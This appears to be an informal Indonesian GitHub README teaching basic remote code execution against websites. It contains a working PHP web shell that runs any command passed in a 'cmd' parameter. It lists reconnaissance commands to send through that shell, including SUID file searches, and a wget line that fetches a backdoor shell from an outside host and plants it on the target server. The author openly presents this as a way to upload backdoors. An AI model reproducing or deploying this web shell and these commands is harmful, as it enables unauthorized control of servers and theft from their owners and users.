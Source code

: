 ### Remote Code Execution

<p align="center">
<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" height="150" width="150">

Basic For Remote Code Execution ( Critical )

merupakan suatu teknik serangan pada website dengan cara mengeksekusi kode berbahaya dan mengambil alih kendali akses ke sistem komputer. attacker mempunyai kemampuan untuk mengeksekusi perintah di mesin target, biasanya memanfaatkan kelemahan aplikasi yang dijadikan target eksploitasi.
Remote Command Execution (RCE) atau Remote Arbitary Command Execution (ACE) adalah bug yg memungkinkan attacker untuk menjalankan command2 secara remote melalui url. Bug ini biasanya terdapat pada aplikasi yg mnggunakan cgi.

Contoh Kasus Nya Kayak Gini Lur

```
<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" border=0>
';}__halt_compiler();?></h1>
```

### Basic Rce

Misal Gua Upload File : rce.php

Request Dari php nya adalah = cmd

Cara Akses ? :
```
http://site.com/rce.php?cmd=
```

Oke Kita Jalankan Beberapa Perintah Dasar RCE
```
http://site.com/rce.php?cmd=ls
http://site.com/rce.php?cmd=whoami
http://site.com/rce.php?cmd=uname -a
http://site.com/rce.php?cmd=pwd
http://site.com/rce.php?cmd=ps aux
http://site.com/rce.php?cmd=ls -la
http://site.com/rce.php?cmd=netstat -an | grep -i listen
http://site.com/rce.php?cmd=lsattr -va
http://site.com/rce.php?cmd=find / -type f -perm -04000 -ls
http://site.com/rce.php?cmd=netstat -an | grep -i listen
http://site.com/rce.php?cmd=find / -type f -perm -02000 -ls

```

### Reverse Shell Via RCE
Kita Menggunakan Command wget 
```
http://site.com/rce.php?cmd=wget http://dyan6etar.cf/shell.txt -O namashell.php
```
Jika Sudah Kita Akses Di Dokumen Root : site.com/namashell.php

### Penjelasan Singkat
Penjelasan Singkat Tentang Command wget :

wget menurut Otak Gua : Menarik File Dari Luar Server dan Juga Membuat Di Dalam Server

Sedangkan -O Untuk Menamakan File Tersebut 

Sebagai contoh : Saya Telah Membuat Shell Dengan Ekstensi txt Dan Menguploadnya di hosting lain artinya itu diluar server , nah dengan perintah wget kita bisa menarik file itu ke dalam server cuk dan di buat filenya dengan perintah -O.

Tentu Saja Ini Bisa Di Manfaatkan Untuk Up Shell BackDoor

Oke Sekian Sayang:v
